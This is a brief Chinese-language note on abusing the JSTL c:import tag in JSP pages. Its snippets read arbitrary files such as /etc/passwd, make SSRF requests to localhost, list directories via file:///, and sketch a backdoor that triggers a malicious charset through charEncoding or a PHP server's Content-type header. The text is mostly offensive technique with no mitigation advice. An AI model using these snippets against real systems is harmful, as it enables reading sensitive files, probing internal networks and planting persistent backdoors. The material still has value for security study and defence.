# JSTL的可利用点

## 依赖

```xml
<dependency>
  <groupId>org.apache.taglibs</groupId>
  <artifactId>taglibs-standard-impl</artifactId>
  <version>1.2.5</version>
  <scope>runtime</scope>
</dependency>
```

文件头需要引入

```jsp
<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c" %>
```

## import标签

### SSRF与任意文件读

任意文件读`file:///etc/passwd`或`url:file:///etc/passwd`

```jsp
<c:import  url="file:///etc/passwd">
</c:import>
```

SSRF

```jsp
<c:import  url="http://127.0.0.1">
</c:import>
```

列目录

Java很骚，能通过`file:///`去读取目录下有哪些文件

```jsp
<c:import  url="file:///">
</c:import>
```

### 配合Charsets.forName留后门

1. c:import标签自带设置

```jsp
<c:import  url="http://xxx" charEncoding="evil" >
</c:import>
```



2. 会根据请求内容体返回设置

```jsp
<c:import  url="http://xxx/index.php" >
</c:import>
```

然后php服务器上设置

```php
<?php

header("Content-type: charset=evil");
```

